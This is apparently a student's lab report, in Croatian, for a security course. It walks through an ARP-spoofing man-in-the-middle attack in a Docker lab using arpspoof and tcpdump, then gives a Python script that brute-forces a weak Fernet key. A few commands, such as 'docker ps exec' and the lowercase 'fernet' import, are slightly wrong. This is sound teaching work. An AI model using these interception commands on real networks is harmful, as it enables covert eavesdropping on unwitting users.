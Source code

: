 # Laboratorijske vježbe (SRP)

## 1. laboratorijske vježbe

12.10.2021.

## Zadatak

Realizirati man in the middle napad iskorištavanjem ranjivosti ARP protokola.

Student će testirati napad u virtualiziranoj Docker mreži (Docker container networking) koju čine 3 virtualizirana Docker računala (eng. container): 

1. station-1 
2. station-2
3. evil-station (napadač)

## Pokretanje mreže na lokalnom računalu

**Kloniranje repozitorija**

<aside>
💡 $ git clone https://github.com/mcagalj/SRP-2021-22

</aside>

**Ulazak u novi direktorij**

<aside>
💡 $ cd SRP-2021-22/arp-spoofing/

</aside>

- u direktoriju su se nalazile već gotove skripte start.sh i stop.sh za pokretanje i zaustavljanje virtualiziranog mrežnog scenarija što možemo provjeriti naredbom code .

## Naredbe i alati u Linuxu

**Pokretanje i zaustavljanje virtualiziranog mrežnog scenarija**

<aside>
💡 $ ./start.sh

</aside>

<aside>
💡 $ ./stop.sh

</aside>

**Pokretanje shella**

<aside>
💡 $ docker ps exec -it sh

</aside>

**Provjera informacija (IP adrese i adrese mrežnog uređaja)**

<aside>
💡 $ ifconfig -a

</aside>

- uz pomoć dobivenih informacija pratimo jesmo li uspješno izvršili napad

**Provjera nalazi li se station-2 na istoj mreži**

<aside>
💡 $ ping station-2

</aside>

**Pokretanje shella u drugom kontejneru**

<aside>
💡 $ docker exec -it station-2 sh

</aside>

**Ostvarivanje komunikacije između station-1 i station-2** 

<aside>
💡 $ netcat -lp 9000

</aside>

- za ovakav način komunikacije treba znati IP adresu i port

<aside>
💡 $ netcat station-1 9000

</aside>

**Pokretanje shella u trećem kontejneru (napadača)**

<aside>
💡 $ docker exec -it evil-station sh

</aside>

## Napad na žrtvu

**Pokretanje napada**

<aside>
💡 $ arpspoof -t station-1 station-2

</aside>

<aside>
💡 $ tcpdump

</aside>

- sada pratimo razgovor između station-1 i station-2 bez njihova znanja

**Završetak napada**

<aside>
💡 $ echo 0 > /proc/sys/net/ipv4/ip_forward

</aside>

## 2. laboratorijske vježbe

26.10.2021.

## Zadatak

Dešifrirati odgovarajući *ciphertext* u kontekstu simetrične kriptografije. Izazov počiva na činjenici da student nema pristup enkripcijskom ključu.

Za pripremu *crypto* izazova, odnosno enkripciju korištena je Python biblioteka `[cryptography](https://cryptography.io/en/latest/)`. *Plaintext* koji student treba otkriti enkriptiran je korištenjem *high-level* sustava za simetričnu enkripciju iz navedene biblioteke - [Fernet](https://cryptography.io/en/latest/fernet/).

Fernet koristi sljedeće *low-level* kriptografske mehanizme:

- AES šifru sa 128 bitnim ključem
- CBC enkripcijski način rada
- HMAC sa 256 bitnim ključem za zaštitu integriteta poruka
- Timestamp za osiguravanje svježine (*freshness*) poruka

## Rad u Pythonu

**Stvaranje virtualnog okruženja**

<aside>
💡 $ pipenv shell

</aside>

**Instaliranje paketa cryptography i pokretanje pythona**

<aside>
💡 $ pip install cryptography

</aside>

<aside>
💡 $ python

</aside>

**Enkripcija i dekripcija**

```python
from cryptography.fernet import fernet

plaintext = b"Hello World"

key = Fernet.generate_key();
f = Fernet(key);

ciphertext = f.encrypt(plaintext);
f.decrypt(ciphertext);
```

-Prvo smo zadali neki tekst koji želimo enkriptirati. Zatim generiramo enkripcijski ključ koji nam je potreban za enkripciju plaintexta

-Nakon enkripcije koristimo ključ i za dekripciju ciphertexta

**Preuzimanje osobnog izazova na računalo**

```python
from cryptography.hazmat.primitives import hashes

def hash(input):
    if not isinstance(input, bytes):
        input = input.encode()

    digest = hashes.Hash(hashes.SHA256())
    digest.update(input)
    hash = digest.finalize()

    return hash.hex()

filename = hash('jukic_borna') + ".encrypted"
```

**Program za enkripciju**

```python
import base64
from cryptography.hazmat.primitives import hashes
from cryptography.fernet import Fernet

def hash(input):
    if not isinstance(input, bytes):
        input = input.encode()

    digest = hashes.Hash(hashes.SHA256())
    digest.update(input)
    hash = digest.finalize()

    return hash.hex()

def test_png(header):
    if header.startswith(b"\211PNG\r\n\032\n"):
        return True

def brute_force():
    filename = "3f7699d1bc4ee53a3e8f24bf77a150260f938f45b8d6a538819129263bd13.encrypted"
    with open(filename, "rb") as file:
        ciphertext = file.read()

    ctr = 0
    while True:
        key_bytes = ctr.to_bytes(32, "big")
        key = base64.urlsafe_b64encode(key_bytes)

        if not (ctr + 1) % 1000:
            print(f"[*] Keys tested: {ctr + 1:,}", end="\r")

        try:    
            plaintext = Fernet(key).decrypt(ciphertext)
            
            header = plaintext[:32]
            if test_png(header):
                print(f"[+] KEY FOUND: {key}")
                with open("BINGO.png", "wb") as file:
                    file.write(plaintext)         
                break

        except Exception:
            pass
            
        ctr += 1

if __name__ == "__main__":
    brute_force()
```

-Pokrećemo brute_force napad koji će se vrtiti sve dok se ne pronađe ključ, a u terminalu će nam ispisivati koliko je ključeva do sada provjerio iz skupa ključeva

-S obzirom da bi oduzimalo puno vremena, postavljeno je da to ispiše nakon svakog provjerenog tisućitog ključa

-Kada pronađe ključ, program se terminira te stvara datoteku u koju postavlja dekriptirani ciphertext tj. plaintext koja je u našem slučaju slika

NAPOMENA: pod filename je svatko dobio svoju datoteku iz servera koju je trebalo dekriptirati